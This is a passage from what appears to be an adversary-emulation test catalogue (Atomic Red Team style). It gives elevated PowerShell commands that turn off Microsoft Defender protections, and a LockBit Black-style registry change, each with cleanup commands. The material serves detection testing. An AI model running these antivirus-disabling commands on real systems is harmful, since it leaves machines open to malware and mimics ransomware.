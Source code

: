 **Supported Platforms:** Windows


**auto_generated_guid:** c531aa6e-9c97-4b29-afee-9b7be6fc8a64






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-MpPreference -drtm $True
Set-MpPreference -dbm $True
Set-MpPreference -dscrptsc $True
Set-MpPreference -dbaf $True
```

#### Cleanup Commands:
```powershell
Set-MpPreference -drtm 0
Set-MpPreference -dbm 0
Set-MpPreference -dscrptsc 0
Set-MpPreference -dbaf 0
```





<br/>
<br/>

## Atomic Test #31 - LockBit Black - Disable Privacy Settings Experience Using Registry -cmd
LockBit Black - Disable Privacy Settings Experience Using Registry

**Supported Platforms:** Windows


**auto_generated_guid:** d6d22332-d07d-498f-aea0-6139ecb7850e






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKCU\Software\Policies\Microsoft\Windows\OOBE" /v DisablePrivacyExperience /t REG_DWORD /d 1 /f
```

#### Cleanup Commands:
```cmd
reg delete "HKCU\Software\Policies\Microsoft\Windows\OOBE" /v DisablePrivacyExperience /f >nul 2>&1
```
